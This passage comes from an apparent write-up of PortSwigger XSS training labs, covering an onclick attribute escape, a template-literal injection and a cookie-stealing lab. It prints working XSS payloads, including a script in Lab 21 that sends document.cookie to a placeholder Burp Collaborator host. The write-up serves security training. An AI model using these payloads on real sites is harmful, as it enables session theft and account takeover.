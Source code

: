 ![](../../.gitbook/assets/portswigger-xss-writeup-image-11.png)

The link itself is encoded within an `onclick` attribute. The quotes are escaped for me, so I have to break it using `';`. 

However, using `'` doesn't seem to work at all. Instead, one can use `&apos` since it is decoded at runtime and shouldn't be escaped. 

Thus, using `&apos;` would escape the URL part of the `onclick` attribute. Then, simply put `alert(1)` with `&apos;` to end the second quote.

![](../../.gitbook/assets/portswigger-xss-writeup-image-12.png)

## Lab 20: Template Literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

The string I search appears here:

![](../../.gitbook/assets/portswigger-xss-writeup-image-19.png)

Notice that it appears within a template literal. One can use JS expressions to solve the lab. 
Payload: `${alert(1)}`.

## Lab 21: XSS to steal cookie

This requires Burp Collaborator and XSS to steal a cookie. Just use this:

```html
<script>location.href = 'http://BURPSUITE_COLLAB/Stealer.php?cookie='+document.cookie</script>
```

This causes the user's cookie to appear here:

![](../../.gitbook/assets/portswigger-xss-writeup-image-13.png)
